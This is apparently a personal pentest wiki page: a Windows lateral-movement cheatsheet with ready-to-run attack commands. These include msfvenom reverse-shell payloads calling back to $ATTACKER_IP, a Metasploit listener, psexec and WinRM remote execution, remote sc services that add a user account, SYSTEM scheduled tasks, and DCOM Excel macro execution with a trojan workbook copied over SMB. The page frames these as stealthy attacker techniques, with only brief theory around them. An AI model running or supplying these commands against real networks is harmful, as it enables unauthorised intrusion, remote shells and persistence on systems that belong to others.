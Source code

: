 # Windows Network Lateral Movement
The articles [[Network-Protocols]], [[Network-Services]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

The are many ways to navigate the network and move laterally through it, the most stealthier from an attacker perspective is to use live off the land and sue common Administrative Tools or by emulating regular user behaviour, but also SysAdmin behaviour - why would a local admin connect from machine that has no reason to connect to another.

This article will require some knowledge of **Integrity Tokens** [[Bypassing-Windows-User-Account-Control]] and [[Windows-User-Account-Control]] as the restrictions imposed by this system, some methods may fail due UAC enforcement. Also Domain and Local Administrators are different objects, but Domain Admins with Local Admin privileges will not be subject to the same checks as a Local Admin. For remote restrictions made by UAC documentation see [UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 


## MSFVenom
[[MSFvenom-Payloads]] for exe-service
```bash
 msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=$ATTACKER_IP LPORT=4444 -o myservice.exe
```
Upload with smbclient
```bash
smbclient -c 'put myservice.exe' -U <username> -W <workgroup> '//<domain>/share$' <Password> 
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $ATTACKER_IP; set LPORT 4444;exploit"
```

```shell-session
runas /netonly /user:<DOMAIN>\<username> "c:\reverse\shell.exe <options> $ATTACKER_IP $PORT"
```

## Spawning Process Remotely
See [[Windows-Processes]] for more information on Service and Processes. [Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) of Sysinternal Tools is used by Admins so will less likely blocked by Firewall. See [[Sysinternals-Hub]] for more Sysinternals. Requires:
1. Port 445/TCP (SMB) 
1. Requires: `Administrator Group` Membership

`psexec` connects to `Admin$` share and uploads a service binary with the name  `psexesvc.exe` then connects to service control manager to create and run a service named `PSEXESVC` and associates the service binary with `C:\Windows\psexesvc.exe`, finally creating named pipes to handles Std(in/out/err).

```powershell
psexec64.exe \\$IP -u Administrator -p ******** -i cmd.exe
```

It is also an Impacket tool see [[Impacket-Cheatsheet]]

## Remote Process Creation Using WinRM
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely, with most Windows Server installations have WinRM enabled by default.

1. Ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
2. Requires: `Remote Management Users Group` Membership

Connect to remote powershell session:
```powershell
winrs.exe -u:Administrator -p:********** -r:$target cmd
```

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting) suggests that you can accomplish a similar thing with a Powershell by creating a PSCredential object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Enter-PSSession cmdlet to create and interactive session:
```powershell
Enter-PSSession -Computername $TARGET -Credential $credential
```

Using Invoke-Command cmdlet we can run ScriptBlocks remote via WinRM. 
```powershell
Invoke-Command -Computername $TARGET -Credential $credential -ScriptBlock {whoami}
```

## Remote Service Creation with `sc`
1. Ports:  
	1. 135/TCP, 49152-65535/TCP (DCE/RPC)
	2. 445/TCP (RPC over SMB Named Pipes)
	3. 139/TCP (RPC over SMB Named Pipes)
2.  Requires: `Administrator Group` Membership

Windows Ser services execute a command when started, `sc` we create a service on a remote host and attempt to connect to the Service Control Manager(SVCCTL) remote service program through RPC in multiple ways.
1. DCE/RPC `Request -> EMP(port 135) -> Response=SVCCTL is <dynamic port>` Then `RPC Bind to SVCCTL on <dynamic port>`
2. If the above failes `sc` connects to port `Named pipe <\pipe\svcctl\>` on port 445 (SMB or 139 ()

```powershell
sc.exe \\$TARGET create Badbadservice binPath= "net user friend Pass123 /add" start= auto
sc.exe \\$TARGET start Badbadservice
# To Stop and Delete service 
sc.exe \\$TARGET stop Badbadservice
sc.exe \\$TARGET delete Badbadservice
```

## Creating Scheduled Tasks Remotely
`schtasks` can create tasks remotely with `/s` flag.
```powershell
schtasks /s $TARGET /RU "SYSTEM" /create /tn "Badtask" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s $TARGET /run /TN "Badtask" 
# To delete
schtasks /S $TARGET /TN "Badtask" /DELETE /F
```

## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-the-Ticket]]


## Distributed Component Object Model(DCOM)
[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and thier interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Network-Services]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"

$RemotePath = "\\$IP\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) 
[Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 